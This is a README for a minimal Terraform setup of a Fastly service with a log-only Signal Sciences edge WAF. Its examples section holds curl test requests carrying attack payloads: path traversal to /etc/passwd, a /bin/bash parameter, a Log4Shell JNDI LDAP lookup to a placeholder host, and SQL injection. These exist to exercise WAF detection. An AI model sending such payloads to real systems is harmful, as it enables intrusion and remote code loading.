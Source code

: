 # minimum terraform edgewaf

## what
a bare minimum syntax example for getting a vcl+edgewaf service setup in front of a site

the vcl service is configured to pass all traffic (not cache)

the waf site is configured to log attacks (not block)

this provides traffic graphs in the fastly ui, and attack data in the sigsci ui, without actually caching or blocking anything

## howto
```
git clone https://github.com/jbartus/mtfew.git
cd mtfew/
terraform init
cp terraform.tfvars.example terraform.tfvars
# edit terraform.tfvars to populate the values
terraform apply
```

## examples
```
curl https://site_name.global.ssl.fastly.net/headers

curl https://site_name.global.ssl.fastly.net/headers -H 'user-agent: nikto'

curl 'https://site_name.global.ssl.fastly.net/headers?run=/bin/bash'

curl 'https://site_name.global.ssl.fastly.net/headers?cat=../../../etc/passwd'

curl https://site_name.global.ssl.fastly.net/headers -H 'x-attack: ${jndi:ldap://foo.bar.local:9999/path}'

curl 'https://site_name.global.ssl.fastly.net/headers?user=1+ORDER+BY+11'
```
